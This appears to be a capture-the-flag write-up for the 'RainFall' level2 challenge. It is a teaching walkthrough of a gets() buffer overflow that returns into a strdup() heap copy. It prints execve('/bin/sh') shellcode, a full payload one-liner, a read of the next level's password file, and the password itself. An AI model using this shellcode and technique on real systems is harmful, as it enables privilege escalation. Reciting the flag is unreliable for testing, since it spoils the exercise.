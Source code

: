 Level2 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

Level2 rights:
```Shell
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
```

When testing the binary, we notice that it waits for user input and prints it back to us.
Decompiling with Ghidra on https://dogbolt.org/ shows four things:
- `main()` calls a `p()` function
- `p()` stores a buffer of 76 bytes that is used with `gets()`
- a condition checks if `EIP` contains an address from the stack (in which case, it prints back the address itself and exits)
- `p()` calls `strdup()` to copy the content of the buffer used in `gets()`.

To open a shell, we must therefore do the following:
- write a shellcode that opens a terminal
- store this shellcode inside the buffer
- redirect the flow of execution at the start of the buffer
- since we cannot use the address of the buffer from the stack (because of the check), we will use the address of its copy
from the heap, thanks to `strdup()` which uses `malloc()`

Let's write a shellcode:
```Shell
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```
This corresponds to `execve("/bin/sh")`. You can write your own shellcode by writing it in C, doing `objdump()` on the .o
file, copy-pasting the info and add \x in front of each byte. Our shellcode is 21-bytes long.
 
Now,using ltrace we can get the return address of `strdup()`, which corresponds to the copied buffer.
```Shell
level2@RainFall:~$ ltrace ./level2
[...]
strdup("") = 0x0804a008
```

Using gdb and a buffer overflow pattern we get an offset of 80 bytes before reaching `EIP`.
(76 for the buffer itself and 4 extra bytes for `EBP`). This will be the structure of our payload:
21-bytes of shellcode + 59-bytes of `NOP` instructions to reach `EIP` + address of the `strdup()` buffer converted in little endian.
```Shell
level2@RainFall:~$ python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x90" * 59 + "\x08\xa0\x04\x08")' > /tmp/payload2
level2@RainFall:~$ cat /tmp/payload2 - | ./level2
1���
    Qh//shh/bin��̀������������������������������������������������������
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```